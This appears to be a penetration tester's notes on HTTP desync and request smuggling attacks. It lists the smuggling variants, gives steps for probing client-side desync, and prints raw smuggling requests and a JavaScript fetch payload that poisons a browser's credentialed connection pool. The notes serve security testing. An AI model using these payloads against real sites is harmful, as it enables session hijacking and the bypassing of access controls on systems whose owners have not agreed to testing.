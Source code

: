 
#### Desync Attacks
```cpp
TE.CL and CL.TE // classic request smuggling  
H2.CL and H2.TE // HTTP/2 downgrade smuggling  
CL.0 // this  
H2.0 // implied by CL.0  
0.CL and 0.TE // unexploitable without pipelining
```
Server-Side desync require a front-end and back-end architecture | like regular request smuggling.
Client-Side(CSD) desync require front-end only architecture.
CSD:
- send a request has a content-length  without a body, if the server didn't response with an error code, it's likely to be vuln
1.  [Probe for potential desync vectors in Burp.](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#probing-for-client-side-desync-vectors)
2.  [Confirm the desync vector in Burp.](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#confirming-the-desync-vector-in-burp)
3.  [Build a proof of concept to replicate the behavior in a browser.](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#building-a-proof-of-concept-in-a-browser)
4.  Identify an exploitable gadget.
5.  Construct a working [exploit](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#exploiting-client-side-desync-vulnerabilities) in Burp.
6.  Replicate the [exploit](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#exploiting-client-side-desync-vulnerabilities) in your browser.
- images endpoints - redirects - files - semi-malformed URLs are likely to be vuln
- Try targeting static files and server-level redirects, and triggering errors via overlong-URLs, and semi-malformed ones like /%2e%2e.
`Content-Length: (longer-than-body)`
-   If the request just hangs or times out, this suggests that the server is waiting for the remaining bytes promised by the headers.
-   If you get an immediate response, you've potentially found a CSD vector. This warrants further investigation.
- client-Side dseync CSD using fetch: _you should see two requests in the Network tab with the same connection ID, and the second one should trigger a 404_
- note the _milicious-prefix_ must not end with trailing newlines `\r\n\r\n`
- desync using pipelining
```HTTP
GET / HTTP/1.1  
Host: redacted  
  
GET / HTTP/1.1  
Host: intranet.redacted
```
- desync Transfer-Encoding chunked body
```HTTP
:method POST
:path /
:authority redacted
X

0

malicious-prefix
```
- Detect Connection-locked CL.TE : causes connection timeout
```HTTP
POST / HTTP/1.1  
Host: example.com  
Content-Length: 41  
Transfer-Encoding: chunked  
  
0
```

```javascript
fetch('https://example.com/', {  
 method: 'POST',  
 body: "GET /hopefully404 HTTP/1.1\r\nX: Y", // malicious prefix  
 mode: 'no-cors', // ensure connection ID is visible  
 credentials: 'include' // poison 'with-cookies' pool  
}).then(() => {  
 location = 'https://example.com/' // use the poisoned connection  
})
```
- novel technique
![[Desync novel technique.png]]